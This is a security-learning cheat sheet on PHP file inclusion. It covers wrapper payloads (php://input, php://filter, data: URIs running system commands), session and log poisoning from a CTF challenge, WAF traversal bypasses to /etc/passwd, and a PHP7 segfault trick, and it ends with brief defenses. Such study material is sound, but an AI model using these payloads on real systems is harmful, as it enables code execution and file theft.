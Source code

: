 # File Inclusion  
PHP:  
*  [Environment](#environment)  
*  [Methods to include](#methods-to-include)  
*  [WAF bypass](#waf-bypass)  
*  [LFI with PHP7 segfault](#lfi-with-php7-segmentfault)  

Gogs:  
*  [Inject path to session id](#inject-path-to-session-id)  
  
Conclusion:  
*  [Defense](#defense)  
*  [Reference](#reference)    

# Environment  
Here I would put some settings that you need to know before starting on Local File Inclusion. In `php.ini`:  
1. `allow_url_include` (default: off and makes it impossible to RFI)  
2. `session.auto_start` (default: off and makes it hard to create session)  
3. `session.upload_progress.cleanup` (default: On and makes it hard to include the session)  

# Methods to include  
File inclusion is always used to arbitrary code execution:  
1. pseudo protocol  
```php
php://input
// Condition：allow_url_include = on
?file=php://input
POST data: xxx

php://filter
// get base-64 encoded source code
?file=php://filter/read=convert.base64-encode/resource=file.php
// It's important that filter can be used to handle string with various ways, please take a look at the reference#1
php://filter/write=string.strip_tags|convert.base64-decode/resource=shell.php

phar://path.zip/file.php
// php5.3.0up, parse the archived file
// Sam Thomas publish a new use of phar able to unserialize without unserialize() function, please take a look at my Unserialization part

zip://path.zip%23file.php
// php5.3.0up, work as phar://, but need absolute path, and need to encode # as %23

data:URL schema
// php5.2up, two settings in php.ini set to on
?file=data:text/plain,<?php phpinfo();?>
?file=data:text/plain,<?php system(ls);?>
?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b (base64 encode phpinfo)
```  
More protocol：`file://`,`ftp://`,`zlib://`,`glob://`,`ssh2://`,`rar://`,`ogg://`,`expect://`  

2. Session inclusion  
We can control the content of session, and we also know the path of session...  
Path of session can be got from `session_save_path` in phpinfo  

🍊Include Session in Hitcon CTF 2018 [ONE LINE PHP CHALLENGE](https://blog.orange.tw/2018/10/hitcon-ctf-2018-one-line-php-challenge.html):  
`session.upload_progress.name` ➡️ create session file ➡️ filename: `sess_{PHPSESSID}`  
![](https://github.com/shinmao/Web-Security-Learning/blob/master/LFI/burp_multipart.png)
As long as `PHP_SESSION_UPLOAD_PROGRESS` in POST of multipart/form-data and `session.upload_progress.enabled = On` (fortunately default is on), PHP session files would be created no matter `session.auto_start = 0`! Then to deal with the problem of `session.upload_progress.cleanup = On`, we need race condition.  
[hitcon 2018受虐笔记一:one-line-php-challenge 学习 by wonderkun](http://wonderkun.cc/index.html/?cat=1)  
[Session Upload Progress ](http://php.net/manual/en/session.upload-progress.php)  

3. Log inclusion  
**Permission** to read the log?  
Take apache for example, request would be written to `access.log`, and error would be written to `error.log`. The default stored path is `/var/log/apache2/`  
Therefore, attacker always needs to get the path with config file, and pay attention to the fact that whether the request would be encoded (use burp to modify the encoded request), then include the log in the end  

4. SSH log inclusion  
**Permission** to read?  
Default path: `/var/log/apache2/access.log`,`/var/log/apache2/error.log`  
```php
ssh '<?php phpinfo();?>'@remotehost
// phpinfo in log, and include
```  
5. include temp file (lfi with phpinfo)  
Just like the picture in [LFI with PHP7 segfault](#lfi-with-php7-segmentfault), PHP handles `enctype="multipart/form-data"` with following steps. When output from PHP script is larger than output buffer setting (which is always 4096), the partial content would change to `Transfer-Encoding: chunked`. Therefore, what we need to do is to delay the execution time of PHP script. The reason for using phpinfo is getting the tmp file name from `$_FILE`.  

6. include `/proc/self/environ`: php requires to run as CGI  

7. include uploaded file: need uploading functionality on website itself   

# WAF bypass  
* Relative path bypass  
WAF usually detect **continuous** multiple `../`
```php
// according to parsing path

// not change
/./ not change
///./..//.//////./   -> use with conbination
```  
* Absolute path bypass, `/etc/passwd` would be blocked  
```php
/aaa/../etc/passwd
/etc/./passwd
```  

# LFI with PHP7 SegmentFault  
![](https://github.com/shinmao/Web-Security-Learning/blob/master/LFI/php_tmp.PNG)  
In the environment of `php7.1.13` (The bug has been fixed in php7.1.24):  
```
php://filter/string.strip_tags/resource=xxx
```  
will cause to segmentation fault. Therefore, the tmp file cannot be removed because PHP is crashed, then we can use bruteforce to include the tmp file. With analysis, the bug of PHP is due to the inference of null pointer.  
[Script by @Wang YiHang](https://www.jianshu.com/p/dfd049924258)  

# Inject path to session id
[CVE-2018-18925](https://github.com/vulhub/vulhub/tree/master/gogs/CVE-2018-18925)  
You can try to include the other file as fake session. This is also based on the condition that the library parse the session id in a wrong way.  

# Defense  
Make a conclusion of the requirement above, we can get the following mitigation  
* php `open_basedir`  
* read permission  
* filter of dangerous characters  

# Reference  
1. [Phith0n 谈一谈php://filter的妙用](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)  
2. [LFI with phpinfo assistance](https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf)  
3. [php文件包含漏洞](https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/?fbclid=IwAR0537cUHx0RuYwbjdVLudlitdkofr5HHhqMcafXW3aoWqlUoJ_lMRAsnk8)
